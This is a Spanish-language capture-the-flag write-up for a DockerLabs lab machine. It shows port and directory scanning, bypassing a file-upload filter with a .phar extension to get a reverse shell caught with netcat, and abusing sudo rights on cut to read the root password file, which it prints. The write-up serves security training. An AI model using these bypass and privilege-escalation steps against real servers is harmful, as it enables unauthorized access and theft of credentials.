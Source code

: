 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 20:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

Viendo que solo hay un servicio http vamos a ver directamente la web y nos aparece esta web:

![dockerlabsweb.png](assets/dockerlabsweb.png)

hacemos una búsqueda de fuerza bruta con gobuster para encontrar directorios y nos muestra esto:

```zsh
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,py,xml,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

## **/uploads :**

![dockeruploads.png](assets/dockeruploads.png)

## **/machine.php :**

![machinedockerupload.png](assets/machinedockerupload.png)

Con esto vemos que tenemos el directorio de uploads con un listado de archivos subidos al servidor vació y machine.php que es un directorio para subir archivos, con esto vamos a intentar subir una reverse shell con formato php a ver si funciona:

![nozipdockerlabs.png](assets/nozipdockerlabs.png)

Vemos que con la extensión .php da error pero vamos a probar todas las extensiones validas de php a ver si están todas sanatizadas, en HackTricks podemos ver todas estas extensiones para usar :

**PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_

Podemos hacerlo manualmente una a una o automatizado desde BurpSuite, en ambos casos obtendremos que la extensión valida a usar es .phar.


![phardockerlabs.png](assets/phardockerlabs.png)


le damos a upload y :

![exitophar.png](assets/exitophar.png)

por lo que iremos al directorio de /uploads donde nos aparecerá el archivo, antes abrimos un net cat y le clickamos al archivo y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...


#Clickamos el .phar en el directorio /uploads


connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 48488
Linux f07770b89658 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 x86_64 x86_64 GNU/Linux
 10:52:15 up 26 min,  0 user,  load average: 0.42, 1.09, 1.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f07770b89658:/$ 

```

Entramos al sistema y enumeramos permisos Sudo, encontramos esto:

 ```bash
 www-data@f07770b89658:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on f07770b89658:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on f07770b89658:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

tenemos permisos de cut y grep con sudo, con esto en gtfobins podemos ver que podemos visualizar archivos a nivel de sudo por lo que buscaremos alguna nota o mensaje que haya en el sistema, empezamos buscando textos .txt:

```bash

www-data@f07770b89658:/$ find / -type f -name "*.txt"
find / -type f -name "*.txt"
find: '/etc/ssl/private': Permission denied
find: '/home/ubuntu': Permission denied
find: '/home/dbadmin': Permission denied
/opt/nota.txt


#Nos apareceran mas archivos con permisos denegados para acceder




www-data@f07770b89658:/$ cd /opt 
cd /opt
www-data@f07770b89658:/opt$ ls
ls
nota.txt
www-data@f07770b89658:/opt$ cat nota.txt
cat nota.txt
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

```

Vemos que hay un txt que podemos ver en /opt asi que vemos el mensaje y dice que en root tenemos una clave.txt que no tenemos permisos para acceder a no ser que seamos root, pero con cut o grep podemos leerlo, vamos a usar el comando que nos proporciona gtfobins con nuestra ruta personalizada:

```bash
www-data@f07770b89658:/opt$ sudo cut -d "" -f1 /root/clave.txt
sudo cut -d "" -f1 /root/clave.txt
dockerlabsmolamogollon123
```

hacemos un su a root y obtenemos maximos privilegios:

![rootDockerLabs.png](assets/rootDockerLabs.png)
